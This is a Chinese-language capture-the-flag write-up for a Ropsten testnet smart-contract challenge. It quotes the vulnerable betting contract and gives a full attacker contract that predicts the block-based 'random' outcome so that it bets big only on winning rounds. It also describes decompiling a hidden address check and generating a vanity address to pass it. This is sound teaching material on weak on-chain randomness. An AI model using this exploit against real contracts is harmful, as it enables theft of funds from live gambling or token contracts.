

# NewCoinGame

*Come to play with the new coingame in **0x38c0E2871D0757d883C4dd1944F04447ADD35FB3@ropsten** ! Trying to copy homework ? May be it's not so simple as you think~*

-----

第一次接触区块链题目，还是费了不少功夫……

首先 Chrome 安装个 MetaMask，弄个账户，怼一些免费的 ETH，然后去 remix.ethereum.org 写合约脚本，这就算是做好准备工作了。

首先观察合约可以看到：

```
contract VisaGame{
    
    using SafeMath for uint256;
    mapping(address => uint256) public bet_count;
    uint256 FUND = 100;
    uint256 MOD_NUM = 20;
    uint256 POWER = 100;
    uint256 SMALL_CHIP = 1;
    uint256 BIG_CHIP = 20;
    VisaToken  visa;
    WinnerList wlist;
    
    event FLAG(string b64email, string slogan);
    
    constructor(address _addr) public{
        visa=new VisaToken();
        wlist = WinnerList(_addr);
    }
    
    function initFund() public{
        if(bet_count[tx.origin] == 0){
            bet_count[tx.origin] = 1;
            visa.mint(tx.origin, FUND);
        }
    }
    
    function bet(uint256 chip) internal {
        bet_count[tx.origin] = bet_count[tx.origin].add(1);
        uint256 seed = uint256(keccak256(abi.encodePacked(block.number)))+uint256(keccak256(abi.encodePacked(block.timestamp)));
        uint256 seed_hash = uint256(keccak256(abi.encodePacked(seed)));
        uint256 shark = seed_hash % MOD_NUM;
        uint256 lucky_hash = uint256(keccak256(abi.encodePacked(bet_count[tx.origin])));
        uint256 lucky = lucky_hash % MOD_NUM;
        if (shark == lucky){
            visa.transfer(address(this), tx.origin, chip.mul(POWER));
        }
    }
    
    function smallBlind() public {
        visa.transfer(tx.origin, address(this), SMALL_CHIP);
        bet(SMALL_CHIP);
    }
    
    function bigBlind() public {
        visa.transfer(tx.origin, address(this), BIG_CHIP);
        bet(BIG_CHIP);
    }
    
    function visaBalanceOf() public view returns(uint256) {
        return visa.visaOf(tx.origin);
    }

    function CaptureTheFlag(string b64email) public{
		require (visa.visaOf(tx.origin) > 18888);
        wlist.note(tx.origin,visaBalanceOf());
		emit FLAG(b64email, "Congratulations to capture the flag!");
	}
}
```

这不是送分题么？假如一直赌小的话期望也能到 18888 这个数额啊？我对题目理解有偏差？

突然就想偷个懒，题目说不能直接 copy homework 的话，那就说明有直接的 homework 可以借鉴，于是我就搜索了下「CTF ropsten」结果在第一篇文章就看到这题……

[如果生成随机数使用的种子使用的是有关当前区块的有关信息，那就是可以预测的，因为如果使用合约调用合约，那两个交易会被打包在一个区块内，那生成种子的所有信息，攻击合约都可以获得，攻击合约可以利用这些信息，生成完全一样的随机数。]: https://bcsec.org/index/detail/tag/2/id/401

于是写了这么一个合约：

```Solidity
pragma solidity ^0.4.24;

import  "./coingame.sol";

contract Hack {
    VisaGame target = VisaGame(0x38c0E2871D0757d883C4dd1944F04447ADD35FB3);
    address account = 0x3B649A3DC9d2A5E34a50CabfdbE56Ab6B1bB1010;
    function hack() public {
        uint now = target.bet_count(account);
        for (uint i = now+1; i <= now+20; i++) {
            uint256 seed = uint256(keccak256(abi.encodePacked(block.number)))+uint256(keccak256(abi.encodePacked(block.timestamp)));
            uint256 seed_hash = uint256(keccak256(abi.encodePacked(seed)));
            uint256 shark = seed_hash % 20;
            uint256 lucky_hash = uint256(keccak256(abi.encodePacked(i)));
            uint256 lucky = lucky_hash % 20;
            if (shark == lucky){
                target.bigBlind();
                break;
            } else {
                target.smallBlind();
            }
        }
    }
    
    function hack2() public {
        while (target.visaBalanceOf() <= 18888) {
            hack();
        }
    }
}
```

OK 钱也够了，调用 CaptureTheFlag 吧！



？？？？？？？？我不是达到要求了么？

仔细对照代码，发现合约和 homework 不同之处在于多了个  WinnerList，而且通过内部合约跟踪，可以知道负责计算 WinnerList 的合约在 0x662d262f79c82EC2E159B53Cbdef97e37BBF2b57。

然后我就不会了……

但！是！我无意在第一篇文章的第二道题看到了有用的信息！

[于是想到了可能 合约 WinnerList 给出的代码不准确，于是调用脚本去读取整整 WinnerList 合约的地址：]: https://bcsec.org/index/detail/tag/2/id/401

？？？？

照做，将合约反编译：

```Solidity
function 03b6eb88() public {
    require((_arg1 > (storage[0] + ((100000000000000000000000000000000000000000000000000000000000000 * (((1000000000000000000000000 * tx.origin) >> 0) & 1)) / 100000000000000000000000000000000000000000000000000000000000000))));
    if((-100000000000000000000000000000000000000000000000000000000000000 && (100000000000000000000000000000000000000000000000000000000000000 * (((1000000000000000000000000 * tx.origin) >> 12) & 1))) == 1000000000000000000000000000000000000000000000000000000000000000) {
        require(((-100000000000000000000000000000000000000000000000000000000000000 && (100000000000000000000000000000000000000000000000000000000000000 * (((1000000000000000000000000 * tx.origin) >> 12) & 1))) == 1000000000000000000000000000000000000000000000000000000000000000));
        return;
    } else {
        require(((-100000000000000000000000000000000000000000000000000000000000000 && (100000000000000000000000000000000000000000000000000000000000000 * (((1000000000000000000000000 * tx.origin) >> 13) & 1))) == 100000000000000000000000000000000000000000000000000000000000000));
        return;
    }
}
```

我还是看不懂啊……接着阅读 Homework，发现其可能是限制了用户地址的末 4 位需要特定字节才能通过，于是运用下社会工程学……

这题在我做之前已经有两人做过了，于是我翻了下成功执行这个合约的那些用户地址有什么共同点，这还真发现了：倒数第三第四位需要为 10。同时我还从他们的数据包中发现，他们此时钱的数量都大于 20000，比标准多出不少，额那我就模仿他们把 Flag 弄得多多的好了

好诶，打开 vanity-eth.tk，造个符合条件的地址，然后重新用这个地址跑一下脚本，最后 CaptureTheFlag

，成功！

（然后因为服务器发不了邮件等了出题人半天维修才收到邮件